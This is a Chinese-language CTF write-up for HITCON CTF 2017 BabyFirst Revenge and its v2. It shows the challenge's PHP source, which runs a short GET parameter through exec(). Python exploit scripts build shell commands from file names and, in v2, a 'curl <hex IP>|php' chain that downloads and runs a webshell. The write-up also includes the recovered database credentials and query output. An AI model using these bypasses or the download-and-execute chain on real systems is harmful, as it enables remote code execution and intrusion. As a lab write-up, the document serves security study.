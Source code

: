 ```yaml
---
comments: false
toc: true
title: HITCON CTF 2017 BabyFirst Revenge & v2 writeup
tags: [ctf,命令注入]
date: 2017-11-12 17:14:27
categories: writeup
description: 绕过四个字符限制getshell
---
```


> from HITCON CTF 2017
> 2017/11/04 02:00 UTC ~ 2017/11/06 02:00 UTC
>
> https://ctf2017.hitcon.org/

### BabyFirst Revenge

> Do you remember [BabyFirst](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst) from HITCON CTF 2015?
>
> This is the harder version!
>
> <http://52.199.204.34/>

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

详细说明：http://bobao.360.cn/ctf/detail/214.html

拿到shell后在`/home/fl4444g/README.txt`  得到数据库配置信息，然后连接数据库得到flag。

```python
http://52.199.204.34/sandbox/___MD5___of___ip/shell.php?cmd=cat%20/home/fl4444g/README.txt
#    Flag is in the MySQL database
#fl4444g / SugZXUtgeJ52_Bvr

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "show databases;"
#    Database
#information_schema
#fl4gdb

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "select concat(table_name) from information_schema.tables where table_schema='fl4gdb';"
#    concat(table_name)
#this_is_the_fl4g

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb;select * from this_is_the_fl4g"
#    secret
#hitcon{idea_from_phith0n,thank_you:)}
```



![](getFlag.png)

#### EXP

```python
# by https://findneo.github.io/
import requests as r
import hashlib
url = 'http://52.199.204.34/'
# 查询自己的IP
ip = r.get('http://ipv4.icanhazip.com/').text.strip()
sandbox = url + 'sandbox/' + hashlib.md5('orange' + ip).hexdigest() + '/'

reset = url + '?reset'
cmd = url + '?cmd='
build = ['>cur\\',
         '>l\ \\',
         'ls>A',
         'rm c*',
         'rm l*',
         '>105\\',
         '>304\\',
         '>301\\',
         '>9\>\\',
         'ls>>A',
         'sh A',
         'php A'
         ]
# 如果目标服务器有GET，这个也是可以打的
# build = ['>GE\\',
#          '>T\\ \\',
#          'ls>A',
#          'rm G*',
#          'rm T*',
#          '>105\\',
#          '>304\\',
#          '>301\\',
#          '>9\>\\',
#          'ls>>A']
r.get(reset)
for i in build:
    s = r.get(cmd + i)
    print '[%s]' % s.status_code, s.url

s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '\n' + '[%s]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge

### BabyFirst Revenge v2

> BabyFirst Revenge v2
> This is the hardest version! Short enough?
>
> http://52.197.41.31/

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

这题是赛后看wp复现的，只到拿webshell的部分。

详细说明： http://bobao.360.cn/ctf/detail/214.html

#### EXP

```python
#-*-coding:utf8-*-
# by https://findneo.github.io/
import requests as r
from time import sleep
import random
import hashlib
target = 'http://52.197.41.31/'

# 存放待下载文件的公网主机的IP
shell_ip = 'xx.xx.xx.xx'

# 本机IP
your_ip = r.get('http://ipv4.icanhazip.com/').text.strip()

# 将shell_IP转换成十六进制
ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))
                     for i in shell_ip.split('.')])

reset = target + '?reset'
cmd = target + '?cmd='
sandbox = target + 'sandbox/' + \
    hashlib.md5('orange' + your_ip).hexdigest() + '/'

# payload某些位置的可选字符
pos0 = random.choice('efgh')
pos1 = random.choice('hkpq')
pos2 = 'g'  # 随意选择字符

payload = [
    '>dir',
    # 创建名为 dir 的文件

    '>%s\>' % pos0,
    # 假设pos0选择 f , 创建名为 f> 的文件

    '>%st-' % pos1,
    # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
    # 因为alphabetical序中t>s

    '>sl',
    # 创建名为 >sl 的文件；到此处有四个文件，
    # ls 的结果会是：dir f> kt- sl

    '*>v',
    # * 相当于 `ls` ，那么这条命令等价于 `dir f> kt- sl`>v ，
    #  dir是不换行的，所以这时会创建文件 v 并写入 f> kt- sl
    # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符

    '>rev',
    # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f> kt- rev sl v

    '*v>%s' % pos2,
    # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。体会一下。
    # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk > f

    # 续行分割 curl 0x11223344|php 并逆序写入
    '>p',
    '>ph\\',
    '>\|\\',
    '>%s\\' % ip[8:10],
    '>%s\\' % ip[6:8],
    '>%s\\' % ip[4:6],
    '>%s\\' % ip[2:4],
    '>%s\\' % ip[0:2],
    '>\ \\',
    '>rl\\',
    '>cu\\',

    'sh ' + pos2,
    # sh g ;g 的内容是 ls -tk > f ，那么就会把逆序的命令反转回来，
    # 虽然 f 的文件头部会有杂质，但不影响有效命令的执行
    'sh ' + pos0,
    # sh f 执行curl命令，下载文件，写入木马。
]

s = r.get(reset)
for i in payload:
    assert len(i) <= 4
    s = r.get(cmd + i)
    print '[%d]' % s.status_code, s.url
    sleep(0.1)
s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '[%d]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2

### 参考链接

[来自小密圈里的那些奇技淫巧](https://speakerdeck.com/player/f81159300925466c88335f3cf740beb6) 